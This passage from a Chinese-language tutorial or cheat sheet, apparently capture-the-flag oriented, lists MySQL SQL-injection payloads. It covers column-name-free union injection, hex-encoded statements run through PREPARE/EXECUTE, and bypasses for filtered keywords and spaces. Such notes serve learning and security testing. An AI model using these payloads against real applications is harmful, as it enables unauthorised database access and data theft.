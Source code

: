 #### 无列名注入

因为没有mysql.innodb_column_stats这个方法，查不了列

判断有多少列，有多少个1就有多少列。

```sql
select group_concat(1) from users
```

利用数字3代替未知的列名，需要加上反引号。后面加了一个a是为了表示这个表（select 1,2,3 union select * from user）的别名，不然会报错。

```sql
select `3` from (select 1,2,3 union select * from user)a;
```

当 ` 不能使用时，用别名来代替：

```sql
select b from (select 1,2,3 as b union select * from user)a;
```

#### Hex 执行sql

```sql
SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;
# prepare…from…是预处理语句，会进行编码转换。
prepare execsql from @a;
# execute用来执行由SQLPrepare创建的SQL语句。
execute execsql;
```

#### || => 拼接

```sql
# 将||的作用由or变为拼接字符串
set sql_mode=pipes_as_concat;
```

#### 过滤关键字

##### Select/Where

```sql
# 过滤 select 和 where
show datebases; #数据库。
show tables; #表名。
show columns from table; #字段。
```

##### order

```sql
order by => group by
```

##### 空格

```sql
show database; => show/**/database;

# 任何可以计算出结果的语句，都可以用括号包围起来。
select user() from dual; => select(user())from dual;

# %a0特性，在进行正则匹配时，识别为中文字符，所以不会被过滤掉，在进入SQL语句后，Mysql是不认中文字符的，所以直接当作空格处理
select * from test; => select%a0*from%a0test;
```
